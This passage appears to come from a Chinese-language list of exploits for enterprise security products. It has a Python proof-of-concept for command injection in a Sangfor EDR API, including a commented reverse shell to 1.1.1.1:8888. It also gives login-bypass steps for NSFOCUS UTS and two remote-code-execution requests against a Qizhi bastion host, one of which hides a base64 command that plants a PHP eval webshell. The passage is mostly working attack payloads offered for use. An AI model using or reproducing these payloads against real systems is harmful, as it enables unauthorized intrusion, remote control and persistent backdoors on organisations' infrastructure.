 ```
#coding:utf-8
# 检测代码，关键片段
def poc(u,\*\*attack):
    print("\[\*\] Checking %s"%(u))
    uri = "/api/edr/sangforinter/v2/cssp/slog\_client?token=eyJtZDUiOnRydWV9"
    url = u+uri
    #data={"params":"w=123\\"'1234123'\\"|bash -i >& /dev/tcp/1.1.1.1/8888 0>&1"}
    if not attack:
        data={"params":"w=123\\"'1234123'\\"|echo aaabbbccc00aa"}
    else:
        if attack\['flag'\]:
            data={"params":"w=123\\"'1234123'\\"|{}".format(attack\['cmd'\])}
    try:
        res = requests.post(url,data=json.dumps(data),verify=False,timeout=timeout)
        data = json.loads(res.content)
        if (data\["code"\] == 0) or (data\["code"\] == 1116):
            print("\[\*\] %s is vulnerabile !"%(u))
            if attack and (data\["code"\] == 0):
                for d in data\["data"\]:
                    print(d)
            else:
                print("\[-\] May command error!")
        else:
            print("\[\*\] %s may not vulnerabile ! ,code is:%s"%(u,str(data\["code"\])))
    except Exception as e:
        print("\[-\] Error %s , %s"%(u,e))
```

4.绿盟UTS绕过登录
===========

随便输密码->修改返回包为True->放行->等待第二次拦截包->内含管理员MD5->替换MD5登录

直接请求接口：/webapi/v1/system/accountmanage/account

5.WPS命令执行漏洞
===========

[http://zeifan.my/security/rce/heap/2020/09/03/wps-rce-heap.html](http://zeifan.my/security/rce/heap/2020/09/03/wps-rce-heap.html)

6.齐治堡垒机 rce
===========

nday，爆出之前已修复：

```
POST /shterm/listener/tui\_update.php

a=\["t';import os;os.popen('whoami')#"\]
```

0day：

```
https://10.20.10.10/ha\_request.php?action=install&ipaddr=10.20.10.11&node\_id=1${IFS}|\`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash\`|${IFS}|echo${IFS}
```
